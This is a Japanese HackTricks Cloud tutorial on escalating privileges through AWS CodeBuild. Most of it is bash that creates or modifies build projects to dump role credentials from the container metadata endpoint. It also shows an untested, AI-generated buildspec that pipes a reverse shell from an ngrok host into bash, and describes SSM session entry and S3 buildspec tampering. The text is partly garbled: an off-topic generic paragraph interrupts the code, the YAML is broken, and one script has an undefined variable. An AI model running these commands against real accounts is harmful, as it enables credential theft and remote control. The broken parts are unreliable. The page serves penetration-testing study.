 # AWS - Codebuild Privesc

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をHackTricksで宣伝したい**場合や、**PEASSの最新バージョンやHackTricksのPDFをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## codebuild

### `iam:PassRole`, `codebuild:CreateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

**`iam:PassRole`、`codebuild:CreateProject`、および`codebuild:StartBuild`または`codebuild:StartBuildBatch`**の権限を持つ攻撃者は、実行中のコードビルドIAMロールを作成することで、特権をエスカレーションさせることができます。

{% tabs %}
{% tab title="Example1" %}
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

JSON="{
\"name\": \"codebuild-demo-project\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"


REV_PATH="/tmp/rev.json"

printf "$JSON" > $REV_PATH

# Create project
aws codebuild create-project --cli-input-json file://$REV_PATH

# Build it
aws codebuild start-build --project-name codebuild-demo-project

# Wait 3-4 mins until it's executed
# Then you can access the logs in the console to find the AWS role token in the output

# Delete the project
aws codebuild delete-project --name codebuild-demo-project
```
以下は、AWS CodeBuildの特権エスカレーションに関する情報です。CodeBuildは、AWSのマネージド型ビルドサービスであり、開発者がアプリケーションのビルド、テスト、パッケージングを簡単に行えるようにサポートしています。

CodeBuildの特権エスカレーションは、CodeBuildプロジェクトの設定に関連しています。攻撃者は、特権のあるCodeBuildプロジェクトを悪用して、AWSリソースにアクセスしたり、機密情報を取得したりすることができます。

特権エスカレーションの一般的な手法の1つは、CodeBuildプロジェクトの環境変数を悪用することです。攻撃者は、特権のある環境変数を設定し、それを使用してAWSリソースにアクセスします。この攻撃手法を防ぐためには、CodeBuildプロジェクトの環境変数の設定に制限を設ける必要があります。

また、CodeBuildプロジェクトのロールも攻撃の標的になります。攻撃者は、特権のあるロールを使用してAWSリソースにアクセスすることができます。特権エスカレーションを防ぐためには、CodeBuildプロジェクトのロールには最小限の権限を与える必要があります。

さらに、CodeBuildプロジェクトのソースコードのセキュリティも重要です。攻撃者は、悪意のあるコードをCodeBuildプロジェクトに組み込むことで、特権エスカレーションを行うことができます。ソースコードのセキュリティを確保するためには、信頼できるソースコード管理システムを使用し、定期的なセキュリティスキャンを実施する必要があります。

特権エスカレーションのリスクを最小限に抑えるためには、CodeBuildプロジェクトの設定とセキュリティに対する適切な対策を講じることが重要です。AWSのドキュメントやセキュリティガイドラインに従い、セキュリティのベストプラクティスを実施しましょう。
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
build:
commands:
- curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**潜在的な影響:** 任意のAWS codebuildロールへの直接の特権昇格。

{% hint style="warning" %}
**Codebuildコンテナ**では、ファイル`/codebuild/output/tmp/env.sh`には**メタデータの資格情報**にアクセスするために必要なすべての環境変数が含まれています。

このファイルには、**環境変数`AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`**が含まれており、資格情報にアクセスするための**URLパス**が含まれています。これは次のようなものになります `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

それをURL **`http://169.254.170.2/`**に追加すると、ロールの資格情報をダンプすることができます。

さらに、**環境変数`ECS_CONTAINER_METADATA_URI`**も含まれており、コンテナに関する**メタデータ情報の完全なURL**を取得することができます。
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

前のセクションと同様に、ビルドプロジェクトを作成する代わりに変更することができれば、IAMロールを指定してトークンを盗むことができます。
```bash
REV="env\\\\n      - curl http://169.254.170.2\$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"

# You need to indicate the name of the project you want to modify
JSON="{
\"name\": \"<codebuild-demo-project>\",
\"source\": {
\"type\": \"NO_SOURCE\",
\"buildspec\": \"version: 0.2\\\\n\\\\nphases:\\\\n  build:\\\\n    commands:\\\\n      - $REV\\\\n\"
},
\"artifacts\": {
\"type\": \"NO_ARTIFACTS\"
},
\"environment\": {
\"type\": \"LINUX_CONTAINER\",
\"image\": \"aws/codebuild/standard:1.0\",
\"computeType\": \"BUILD_GENERAL1_SMALL\"
},
\"serviceRole\": \"arn:aws:iam::947247140022:role/service-role/codebuild-CI-Build-service-role-2\"
}"

printf "$JSON" > $REV_PATH

aws codebuild update-project --cli-input-json file://$REV_PATH

aws codebuild start-build --project-name codebuild-demo-project
```
**潜在的な影響:** 任意のAWS codebuildロールへの直接の特権昇格。

### ssm

**ssmセッションを開始するための十分な権限**を持っている場合、**ビルド中のCodebuildプロジェクト**に入ることができます。

Codebuildプロジェクトにはブレークポイントが必要です:

<pre class="language-yaml"><code class="lang-yaml">phases:
  pre_build:
    commands:
      - echo Entered the pre_build phase...
      - echo "Hello World" > /tmp/hello-world
<strong>      - codebuild-breakpoint
</strong></code></pre>

そして:
```bash
aws codebuild batch-get-builds --ids <buildID> --region <region> --output json
aws ssm start-session --target <sessionTarget> --region <region>
```
詳細については、[**ドキュメントをチェックしてください**](https://docs.aws.amazon.com/codebuild/latest/userguide/session-manager.html)。

### S3 buildspecファイル

[**ドキュメントによると**](https://docs.aws.amazon.com/codebuild/latest/userguide/build-spec-ref.html)、**CodeBuildプロジェクトのbuildspecファイル**（実行時に実行されるコード）を**S3**バケットに保存することができます。

したがって、攻撃者がそのファイルに書き込みアクセス権を持っている場合、彼はコマンドを**変更**して、CodeBuildプロジェクトの**IAMロール**の**資格情報を外部流出**させ、特権をエスカレーションさせることができます。

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もしもあなたの**会社をHackTricksで宣伝**したい場合や、**PEASSの最新バージョンやHackTricksのPDFをダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**をフォロー**してください。
* **ハッキングのトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出**してください。

</details>
